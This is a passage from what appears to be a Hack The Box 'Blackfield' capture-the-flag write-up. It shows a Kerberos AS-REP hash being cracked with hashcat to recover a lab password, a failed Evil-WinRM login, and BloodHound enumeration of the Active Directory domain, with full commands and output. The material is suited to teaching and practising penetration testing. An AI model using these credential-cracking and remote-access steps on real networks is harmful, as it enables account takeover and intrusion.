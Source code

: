 ```

```

While many of the usernames were actually invalid, we did find three valid users (svc_backup, audit2020, and support), and a hash for one. Something to note is the audit user; previously, when we enumerated SMB shares, there was a "forensic" folder that this audit user likely has access to. Moving on, we can crack the hash with hashcat on mode 18200 after writing the hash to a file, and this yields us the following information

```
┌──(root💀DESKTOP-VBI49KD)-[/mnt/d/Downloads]
└─# hashcat -a 0 -m 18200 hash /usr/share/wordlists/rockyou.txt --force

$krb5asrep$23$support@BLACKFIELD.LOCAL:6c4abb99a36faa761188bf7118998eb1$1e2c1afa5619bcee910235a29447654c66fc1dfeb415562db72a23aec206578c0482e32d03f38e5912f9994c9e88528f7e581b70998dbf1dd349375b352f095679c8be7726320857e77eba96c449868979412296fbec8c9848ced7cff89056e3a3efb8dcd50c1893dc34fe2df84875d4745d8dca718f60cd7353e141c7dc9d51a69cf85a3ee788a35eb4099577f2c026ac3fd6b8127ed78d2d487a9bda31d4fd65b5984fa0116f8c47549713c1421672f70be43383d6d76bc9ddc93760eff85b62dc4e100829241a5e777793dbb502c7f6db7a1c0cada3b71c80f7a6bfe07f78f2cfec5b43fa489f3df7cfd743e64f2bd5b30851:
#00^BlackKnight
```

Now that we have valid credentials, we can use Evil-WinRM to get remote access through the WinRM service.

```
┌──(root💀kali)-[/home/kali]
└─# evil-winrm -i 10.10.10.192 -u 'support' -p '#00^BlackKnight' 

Evil-WinRM shell v3.3
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
```

Turns out this doesn't work. This is likely because this user isn't in the "Remote Management Users" group, which is needed if a user is to try to gain access through the WinRM service. In other words, the service can only be used by users in that group. We can confirm this by running bloodhound (plus this helps us enumerate even further, now that we have access to an actual user).

```
┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]
└─# python /usr/local/bin/bloodhound-python -u 'support' -p '#00^BlackKnight' -ns 10.10.10.192 -d BLACKFIELD.LOCAL -c all                                                                                  
INFO: Found AD domain: blackfield.local
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 315 users
INFO: Connecting to GC LDAP server: dc01.blackfield.local
INFO: Found 51 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.BLACKFIELD.local
INFO: Done in 00M 17S
```
